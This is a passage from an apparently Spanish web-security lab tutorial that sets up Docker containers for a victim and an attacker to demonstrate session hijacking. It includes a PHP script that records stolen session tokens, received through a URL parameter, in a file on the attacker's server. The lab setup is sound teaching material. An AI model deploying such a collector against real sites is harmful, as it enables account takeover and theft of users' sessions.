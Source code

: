  
 robo-de-sesion.php
 ```bash
<?php
ini_set('display_errors', 1);
error_reporting(E_ALL);

$session_robada = $_GET['session_robada'] ?? "";
$session_robada .= "\n";
$fichero = '/data/sessions.txt';
// Abre el fichero para obtener el contenido existente
$actual = file_get_contents($fichero);
// Escribe el contenido al fichero
file_put_contents($fichero, $session_robada, FILE_APPEND);
?>
```
  
 
 
 
 Ahora ya tienes la estructura preparada, con lo que al ejecutar el script de ejecución, mapeará a la víctima en el puerto 8081 y al atacante en el puerto 8080
 
 Ejecuta el script  build.sh para la construcción de la imagen, y run.sh de la carpeta víctima para que se ejecute el contenedor.
 
 $ ./build.sh
 ![](https://github.com/savalls/savalls.github.io/blob/main/assets/img/20220426_seg_web_vict_build.png?raw=true)
 
 $ ./run.sh
 ![](https://github.com/savalls/savalls.github.io/blob/main/assets/img/20220426_seg_web_vict_run.png?raw=true)
 
 
 
Realiza la misma acción desde la carpeta _atacante_ con los scripts _build.sh_ y _persist.sh_
![20220426_seg_web_atac_build.png](../assets/img/20220426_seg_web_atac_build.png)
